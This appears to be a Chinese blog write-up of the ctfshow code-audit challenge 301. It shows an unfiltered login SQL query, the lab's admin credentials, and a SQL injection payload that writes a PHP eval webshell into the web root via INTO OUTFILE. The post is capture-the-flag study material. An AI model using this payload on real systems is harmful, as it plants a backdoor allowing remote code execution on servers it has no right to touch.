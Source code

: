 ```yaml
---
title: ctfshow-代码审计
date: 2021-010-06 20:40:30
author: Na0H
tags:	
- ctfshow
categories:
- ctfshow
excerpt: ctfshow 代码审计
description:  ctfshow 代码审计

---
```




整个国庆都在刷终极考核，第一台机子拿了shell但是没能提权，看了4天linux提权
和群主交流的时候他说挺简单，应该是我信息收集没到位；

虽然前面的提权都没成，但也学到很多东西

明天晚上就回学校了，今天就抽点时间做一下代码审计这一块放松放松~



<iframe frameborder="no" border="0" marginwidth="0" marginheight="0" width=330 height=86 src="//music.163.com/outchain/player?type=2&id=1456890009&auto=0&height=66"></iframe>

```html
# 上面播放器的代码如下（仅网易云外链链接，其他播放器请自行百度）
<iframe frameborder="no" border="0" marginwidth="0" marginheight="0" width=330 height=86 src="//music.163.com/outchain/player?type=2&id=1456890009&auto=0&height=66"></iframe>
# width(宽度) ; height(高度)
# type = 歌曲(1) | 歌单(2) | 电台(3)
# id = 歌曲ID号
# auto = 自动播放(1) | 手动播放(0)
```

## 301 sql注入

本来打算用seay审一下，但是啥也没有，大概是没有危险函数？
手动审一下

checklogin.php，sql语句没有过滤

```php
$sql="select sds_password from sds_user where sds_username='".$username."' order by id limit 1;";
```

没回显就不注了，可以sqlmap一把梭，账户密码：`admin/ctfshowwwww`

![](https://i.loli.net/2021/10/06/9SvGmP1j4J7s8CB.png)

或者尝试写马

```sql
userid=' union select "<?php eval($_GET[1]);" into outfile "/var/www/html/a.php" --+
```
